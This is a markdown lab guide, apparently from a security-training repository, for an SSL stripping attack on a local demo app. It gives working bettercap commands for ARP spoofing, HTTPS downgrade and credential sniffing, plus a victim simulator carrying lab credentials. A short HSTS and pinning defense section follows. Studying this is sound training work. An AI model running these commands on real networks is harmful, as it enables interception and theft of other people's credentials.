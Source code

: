 # SSL Stripping Lab Guide

## Overview
This lab demonstrates SSL downgrade attacks using SSL stripping techniques. The goal is to intercept HTTPS traffic and capture credentials transmitted in plaintext for security research and defense training.

## Prerequisites
- Linux system with network access
- Bettercap installed
- Python 3 with requests library
- Network interface capable of packet injection
- Victim simulator (included)

## Tools Comparison

### Bettercap vs Ettercap
- **Bettercap**: Recommended - built-in SSL stripping, no custom filters needed
- **Ettercap**: Requires custom filter files, more complex setup

## Lab Setup

### 1. Install Bettercap
```bash
sudo apt install bettercap
```

### 2. Enable IP Forwarding
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
sudo sysctl -w net.ipv4.conf.all.send_redirects=0
```

### 3. Start SSL Stripping Attack

**Basic command (replace `eth0` with your interface):**

```bash
sudo bettercap -iface eth0 -eval "net.recon on; set arp.spoof.fullduplex true; arp.spoof on; set http.proxy.sslstrip true; http.proxy on; net.sniff on"
```

**Target specific victim:**
```bash
sudo bettercap -iface eth0 -eval "set arp.spoof.fullduplex true; set arp.spoof.targets [VICTIM_IP]; arp.spoof on; set http.proxy.sslstrip true; http.proxy on; net.sniff on"
```

### 4. Start BlueLedger Target Application
```bash
cd /home/hwoomer/Documents/BlueLedger
docker compose up
```

This starts the BlueLedger app with:
- HTTP server on port 5000
- HTTPS server on port 5001 (with self-signed certificate)

### 5. Run Victim Simulator
In a separate terminal:
```bash
python3 victim_simulator.py
```

**Note**: Update victim simulator target to `https://[TARGET_IP]:5001/api/auth/login`

## Attack Components

### Bettercap Modules Used
- `arp.spoof`: ARP poisoning for MITM positioning
- `http.proxy`: HTTP proxy with SSL stripping
- `net.sniff`: Packet capture for credential extraction
- `net.recon`: Network reconnaissance

### SSL Stripping Process
1. ARP spoofing positions attacker as gateway
2. HTTPS requests intercepted and downgraded to HTTP
3. Victim receives HTTP response (appears normal)
4. Credentials transmitted in plaintext
5. Bettercap captures and logs credentials

## Expected Results

### Captured Credentials
Monitor bettercap output for JSON POST data containing:
- `"email":"Employee@sinamoa.com"`
- `"password":"Employee123!@#"`

### Traffic Flow
1. Victim attempts HTTPS connection to port 5001 (BlueLedger HTTPS)
2. Bettercap intercepts and strips SSL
3. Plaintext HTTP request forwarded to port 5000 (BlueLedger HTTP)
4. BlueLedger backend accepts both HTTP and HTTPS
5. Credentials captured in transit by bettercap

## Victim Simulator Details
- Sends JSON login attempts every 30 seconds to `/api/auth/login`
- Uses realistic User-Agent headers
- Targets configurable IP address (defaults to HTTPS port 5001)
- Simulates typical REST API authentication flow
- Credentials: Employee@sinamoa.com / Employee123!@#

## Defense Considerations
This lab helps understand:
- SSL stripping attack vectors
- Importance of HSTS (HTTP Strict Transport Security)
- Certificate pinning effectiveness
- User awareness of URL schemes (HTTP vs HTTPS)

## Lab Cleanup
1. Stop bettercap with Ctrl+C
2. Stop victim simulator with Ctrl+C
3. Disable IP forwarding (optional):
   ```bash
   echo 0 > /proc/sys/net/ipv4/ip_forward
   ```

## Notes
- This setup requires no custom configuration files
- Works out of the box with standard tools
- Demonstrates practical SSL downgrade vulnerability
- Suitable for security research and training environments

## Troubleshooting
- Ensure proper network interface selection
- Verify ARP spoofing is working with `net.show`
- Check that victim and attacker are on same network segment
- Monitor bettercap logs for SSL stripping activity